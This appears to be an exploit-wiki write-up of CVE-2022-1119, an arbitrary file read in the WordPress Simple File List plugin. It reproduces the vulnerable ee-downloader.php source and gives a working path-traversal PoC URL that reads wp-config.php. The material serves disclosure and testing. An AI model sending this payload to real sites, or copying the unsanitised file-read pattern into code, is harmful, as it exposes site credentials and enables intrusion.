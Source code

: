 # WordPress Simple File List ee-downloader.php Arbitrary file reading vulnerability CVE-2022-1119

## Vulnerability Description

WordPress Simple File List plug-in ee-downloader.php file has arbitrary file reading vulnerability, and attackers can read any file in the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WordPress Simple File List < 3.2.8</span>

## Plugin Name

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Simple File List</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://downloads.wordpress.org/plugin/simple-file-list.3.2.17.zip</span>

## Vulnerability reappears

The vulnerable file is `wp-content/plugins/simple-file-list/includes/ee-downloader.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656833917266-d2d288f0-265a-426f-9096-b89b600be62a.png)

```php
<?php // Simple File List - ee-downloader.php - rev 1.19 - mitchellbennis@gmail.com

// Force File to Download
// This script is accessed via javascript on ee-download.php 

$eeFile =  filter_var($_GET['eeFile'], FILTER_SANITIZE_STRING, FILTER_FLAG_ENCODE_LOW);

if(is_readable($eeFile)) {

    header('Pragma: public'); // required
    header('Expires: 0'); // no cache
    header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
    header('Last-Modified: '. gmdate ('D, d M Y H:i:s', filemtime ($eeFile)) .' GMT');
    header('Cache-Control: private',false);
    header('Content-Type: ' . mime_content_type($eeFile) );
    header('Content-Disposition: attachment; filename="'. basename($eeFile) .'"');
    // header('Content-Transfer-Encoding: binary');
    header('Content-Length: '. filesize($eeFile)); // provide file size
    header('Connection: close');
    readfile($eeFile); // Start the download

}
?>
```

Directly transfer parameters to obtain file information, verify POC

```php
/wp-content/plugins/simple-file-list/includes/ee-downloader.php?eeFile=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/wp-config.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656833959273-cb7b870d-acb3-4804-88c2-ca3531195dc7.png)